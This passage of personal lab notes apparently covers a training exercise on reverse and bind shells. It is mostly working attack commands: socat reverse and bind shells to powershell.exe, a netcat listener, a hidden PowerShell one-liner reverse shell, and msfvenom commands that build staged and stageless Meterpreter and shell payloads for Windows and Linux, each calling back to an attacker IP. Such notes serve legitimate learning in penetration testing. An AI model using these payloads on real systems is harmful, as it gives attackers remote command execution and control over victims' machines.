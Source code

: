 		reverse shell (windows)
		`socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:powershell.exe,pipes`
		
		bind shell(windows):
		`socat TCP-L:<PORT> EXEC:powershell.exe,pipes`

	- netcat
		`nc -nvlp 1234`
		
		powershell (run in cmd directly):
		`powershell -NoP -NonI -W Hidden -Exec Bypass -Command New-Object System.Net.Sockets.TCPClient("machineIP",PORT);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()`

8) **Create a 64bit Windows Meterpreter shell using msfvenom and upload it to the Windows Target. Activate the shell and catch it with multi/handler. Experiment with the features of this shell.**

	generating msfvenom windows payload:
	`msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.222.83 LPORT=1234 -f exe > reverse.exe`

	creating listener using multi/handler with payload: `windows/meterpreter/reverse_tcp`
	![[Pasted image 20240821025104.png]]

	transfering the payload file to the attacking windows machine:
	![[Pasted image 20240821025229.png]]
	![[Pasted image 20240821025239.png]]

	run the file on the machine ... etc

9) Create both staged and stageless meterpreter shells for either target. Upload and manually activate them, catching the shell with _netcat_ -- does this work?

	- setting up the listener using netcat:
		`nc -nvlp 1234`

	- generating msfvenom payloads:
		
		### **Windows Staged reverse TCP**
		`msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.0.0.1 LPORT=4242 -f exe > reverse.exe`

		### **Windows Stageless reverse TCP**
		`msfvenom -p windows/shell_reverse_tcp LHOST=10.0.0.1 LPORT=4242 -f exe > reverse.exe`

		### **Linux Staged reverse TCP**
		`msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.0.0.1 LPORT=4242 -f elf >reverse.elf`

		### **Linux Stageless reverse TCP**
		`msfvenom -p linux/x86/shell_reverse_tcp LHOST=10.0.0.1 LPORT=4242 -f elf >reverse.elf`

	- uploading manually on the website and open/test them
		![[Pasted image 20240821025811.png]]
		![[Pasted image 20240821025829.png]]
		